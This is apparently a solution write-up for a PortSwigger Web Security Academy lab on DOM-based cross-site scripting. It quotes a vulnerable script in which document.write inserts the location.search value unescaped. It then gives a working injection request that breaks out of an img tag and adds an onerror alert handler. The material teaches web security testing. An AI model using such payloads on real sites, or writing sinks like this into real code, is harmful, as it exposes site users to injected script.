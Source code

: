 # [Lab: DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)

## Lab

This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the `alert` function.

## Analysis

in the source code, there is a interesting javascript block:

```js
<script>
    function trackSearch(query) {
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        trackSearch(query);
    }
</script>
```

query variable is a user-controlled variable.

## Solutions

Craft a xss:

```http
GET /?search="><img+src=1+onerror="alert(1) HTTP/1.1
```

after js executed:

```html
<img src="/resources/images/tracker.gif?searchTerms=">
<img src="1" onerror="alert(1)">
```
